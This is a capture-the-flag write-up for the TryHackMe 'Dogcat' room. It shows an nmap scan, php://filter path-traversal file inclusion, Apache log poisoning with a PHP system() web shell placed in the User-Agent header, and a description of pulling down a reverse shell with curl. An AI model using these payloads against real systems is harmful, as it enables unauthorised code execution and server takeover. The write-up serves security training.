 # Dogcat 

[Link to room](https://tryhackme.com/room/dogcat)

## Enumeration

```nmap
# Nmap 7.80 scan initiated Sun Jun 28 04:10:22 2020 as: nmap -sC -sV -oN nmap.txt 10.10.129.248
Nmap scan report for 10.10.129.248
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 28 04:11:27 2020 -- 1 IP address (1 host up) scanned in 65.09 seconds
```

## Web Exploitation

After a little research i find out a way to bypass the php filter [check out this site](https://www.php.net/manual/en/wrappers.php.php)

Now lets read the index page, http://dogcat.thm/?view=php://filter/read=convert.base64-encode/resource=./dog/../index

![dogcat-1](https://github.com/strange07/tryhackme/blob/master/Dogcat/1.png)
but this is a base-64 encoded lets decode it
![dogcat-2](https://github.com/strange07/tryhackme/blob/master/Dogcat/2.png)
lets see whats in the index page 
![dogcat-3](https://github.com/strange07/tryhackme/blob/master/Dogcat/3.png)
The site checks if the “ext” parameter was provided, and if not it adds “.php” by default to our filename

1. What is flag 1?

http://dogcat.thm/?view=php://filter/read=convert.base64-encode/resource=./dog/../flag
![dogcat-4](https://github.com/strange07/tryhackme/blob/master/Dogcat/4.png)
![dogcat-5](https://github.com/strange07/tryhackme/blob/master/Dogcat/5.png)
2. What is flag 2?

According to our nmap scan the server runs on Apache so let’s try to get code execution with log poisoning

The access log path for Apache is “/var/log/apache2/access.log”
lets try to read logs `/?view=./dog/../../../../../../../var/log/apache2/access.log&ext`

![dogcat-6](https://github.com/strange07/tryhackme/blob/master/Dogcat/6.png)
you can check page to source to better understand the logs
We can see that next to the route there is the User-Agent parameter

***lets insert a small php script for code excution***
i use `user agent switcher addon` to put the php code `<?php system($_GET['cmd']);?>`

![dogcat-7](https://github.com/strange07/tryhackme/blob/master/Dogcat/7.png)

Now lets check if that works `view-source:http://dogcat.thm/?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami`

![dogcat-8](https://github.com/strange07/tryhackme/blob/master/Dogcat/8.png)

I tried getting a reverse shell by executing a command but that doesn't works so i use curl to download a script from my local computer and executed it from webpage to get the reverse shell.So lets try it

First we will run a python server and then we will use curl command to output the shell into shell.php on the server 

![dogcat-9](https://github.com/strange07/tryhackme/blob/master/Dogcat/9.png)
![dogcat-10](https://github.com/strange07/tryhackme/blob/master/Dogcat/10.png)
Now lets execute the shell.php by simply navigating to it
![dogcat-11](https://github.com/strange07/tryhackme/blob/master/Dogcat/11.png)
![dogcat-12](https://github.com/strange07/tryhackme/blob/master/Dogcat/12.png)

## Privilege Escalation

![dogcat-13](https://github.com/strange07/tryhackme/blob/master/Dogcat/13.png)

2. What is flag 2?

![dogcat-14](https://github.com/strange07/tryhackme/blob/master/Dogcat/14.png)

3. What is flag 3?

![dogcat-15](https://github.com/strange07/tryhackme/blob/master/Dogcat/15.png)

## Escaping Docker

![dogcat-16](https://github.com/strange07/tryhackme/blob/master/Dogcat/16.png)

4. What is Question 4?

![dogcat-17](https://github.com/strange07/tryhackme/blob/master/Dogcat/17.png)
